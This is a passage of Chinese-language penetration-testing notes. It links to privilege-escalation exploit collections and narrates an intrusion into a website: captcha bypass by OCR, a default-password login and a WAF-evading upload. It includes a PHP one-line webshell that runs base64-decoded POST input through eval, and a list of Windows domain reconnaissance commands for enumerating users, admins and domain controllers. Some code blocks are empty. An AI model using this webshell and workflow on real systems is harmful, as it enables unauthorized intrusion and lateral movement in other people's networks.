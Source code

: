 > http://www.91ri.org/5866.html

win提权辅助tool

> https://github.com/GDSSecurity/Windows-Exploit-Suggester/

详解Linux权限提升的攻击与防护

> https://www.anquanke.com/post/id/98628

windows-kernel-exploits Windows平台提权漏洞集合

> https://github.com/SecWiki/windows-kernel-exploits

linux-kernel-exploits Linux平台提权漏洞集合

> https://github.com/SecWiki/linux-kernel-exploits

hash与票据

> [https://mp.weixin.qq.com/s/ENStRpYspx5W974BKPzZtA](https://mp.weixin.qq.com/s?__biz=MzI0NTYwMDMzNA==&mid=2247484206&idx=1&sn=31ee99fbf38ced642e44aab698f802c0&scene=21#wechat_redirect)获取 webshell 进内网
>
> 测试主站，搜 wooyun 历史洞未发现历史洞，github, svn, 目录扫描未发现敏感信息, 无域传送，端口只开了80端口，找到后台地址，想爆破后台，验证码后台验证，一次性，用 ocr 识别，找账号，通过 google，baidu，bing 等搜索，相关邮箱，域名等加常用密码组成字典，发现用户手册，找账号，发现未打码信息，和默认密码，试下登陆成功，找后台，上传有 dog，用含有一句话的 txt 文件 
>
> > \````
>
> 打包为 zip，php 文件 
>
> > \```` 
>
> 即可，c 刀被拦，修改 config.ini 文件
>
> > ```
> > php_make @eval(call_user_func_array(base64_decode,array($_POST[action])));
> > ```
>
> 用回调函数，第一个为函数名，二个为传的参数
>
> ### 前期信息收集
>
> > query user || qwinsta 查看当前在线用户
> >
> > net user  查看本机用户
> >
> > net user /domain 查看域用户
> >
> > net view & net group "domain computers" /domain 查看当前域计算机列表 第二个查的更多
> >
> > net view /domain 查看有几个域
> >
> > net view \\\\dc  查看 dc 域内共享文件
> >
> > net group /domain 查看域里面的组
> >
> > net group "domain admins" /domain 查看域管
> >
> > net localgroup administrators /domain  /这个也是查域管，是升级为域控时，本地账户也成为域管
> >
> > net group "domain controllers" /domain 域控
> >
> > net time /domain 
> >
> > net config workstation  当前登录域 - 计算机名 - 用户名
> >